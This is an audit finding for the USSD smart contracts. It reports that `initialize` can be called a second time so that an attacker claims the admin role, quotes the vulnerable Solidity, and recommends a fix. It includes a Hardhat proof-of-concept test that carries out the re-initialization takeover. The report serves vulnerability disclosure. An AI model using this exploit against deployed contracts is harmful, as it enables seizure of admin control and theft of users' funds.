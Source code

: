 shealtielanz

high

# `initialize` Function Can Be Called Again To Claim The `DEFAULT_ADMIN_ROLE`

[Lines of Code](https://github.com/USSDofficial/ussd-contracts/blob/f44c726371f3152634bcf0a3e630802e39dec49c/contracts/USSD.sol#LL31C1-L44C1)
[Lines of Code](https://github.com/USSDofficial/ussd-contracts/blob/f44c726371f3152634bcf0a3e630802e39dec49c/contracts/USSDRebalancer.sol#LL38C1-L44C1)
[Line of Code](https://github.com/USSDofficial/ussd-contracts/blob/f44c726371f3152634bcf0a3e630802e39dec49c/contracts/USSD.sol#L39)
## Summary
The OpenZepplins Initializable Contract was not imported in the `USSD.sol` and the `USSDRebalancer.sol` contracts making the `initializer` modifier useless, this leaves the `initialize` function open to be called again by a malicious actor.

## Vulnerability Detail
An Attacker can call the `initialize` function again and claim the `DEFAULT_ADMIN_ROLE` which allows for assigning `Admin Roles` and can then be used to bypass checks that allow only the admins, giving him full control of the contract.


`initialize` Function In USSD.sol

```solidity
function initialize(
        string memory name,
        string memory symbol
    ) public initializer {
        __Context_init_unchained();
        __AccessControl_init_unchained();
        __ERC20_init_unchained(name, symbol);
        _setupRole(DEFAULT_ADMIN_ROLE, _msgSender());
        // mint 10k USSD to create initial pool
        _mint(msg.sender, 10_000 * 1e6);
    }
```

`initialize` Function In USSDRebalancer.sol

```solidity
function initialize(address _ussd) public initializer {
        _setupRole(DEFAULT_ADMIN_ROLE, _msgSender());
        threshold = 1e4;
        USSD = _ussd;
    }
```
This gives the attacker access to the entire `protocol` .
**POC**
using `Hardhat Framework`
```hardhat
// Import necessary dependencies for testing
import { ethers } from "hardhat";
import { Signer } from "ethers";

// Import necessary testing libraries
import { expect } from "chai";

describe("USSD", function () {
  let ussd;
  let deployer;
  let attacker;

  beforeEach(async function () {
    // Get the deployer and attacker signers
    [deployer, attacker] = await ethers.getSigners();

    // Deploy the contract
    const USSD = await ethers.getContractFactory("USSD");
    ussd = await USSD.deploy();
    await ussd.deployed();
  });

  it("should allow an attacker to become the new admin after re-initialization", async function () {
    // Check if the deployer is initially the admin
    const isDeployerAdmin = await ussd.hasRole(DEFAULT_ADMIN_ROLE, deployer.address);
    expect(isDeployerAdmin).to.be.true;

    // Call initialize function to set up the contract
    await ussd.initialize("My Token", "MTK");

    // Re-initialize the contract with the attacker as the admin
    await ussd.connect(attacker).initialize("Reinitialized Token", "RTK");

    // Check if the attacker has become the new admin
    const isAttackerAdmin = await ussd.hasRole(DEFAULT_ADMIN_ROLE, attacker.address);
    expect(isAttackerAdmin).to.be.true;
  });
});
```
 The above `test case` demonstrates the attack scenario by calling the `initialize` function twice, with the second call executed by the attacker.
the `deployer` (the contract deployer) will be assigned the `DEFAULT_ADMIN_ROLE` during contract deployment. After `re-initialization`, the attacker (the one calling the initialize function) will become the `new admin`, as the _setupRole function will assign the `DEFAULT_ADMIN_ROLE` to the caller.
## Impact
This gives a malicious actor access to all the `critical` functions guarding the protocols flow which was protected by the `onlyControl` modifier. This attacker can halt the whole performance of the `protocol` by inputting invalid values or stealing `funds` formerly protected.
## Code Snippet
https://github.com/USSDofficial/ussd-contracts/blob/f44c726371f3152634bcf0a3e630802e39dec49c/contracts/USSD.sol#L39
https://github.com/USSDofficial/ussd-contracts/blob/f44c726371f3152634bcf0a3e630802e39dec49c/contracts/USSDRebalancer.sol#L39
## Tool used
Manual Review & Hardhat

## Recommendation
The  `Openzeppelin`  `Initializable.sol` contract should be imported and implemented properly to ensure that the `initializer` modifier works properly and protects the `initialize` functions.
Also, don't forget to lock initializers in the contract:
```solidity
constructor() {
    _disableInitializers();
}
```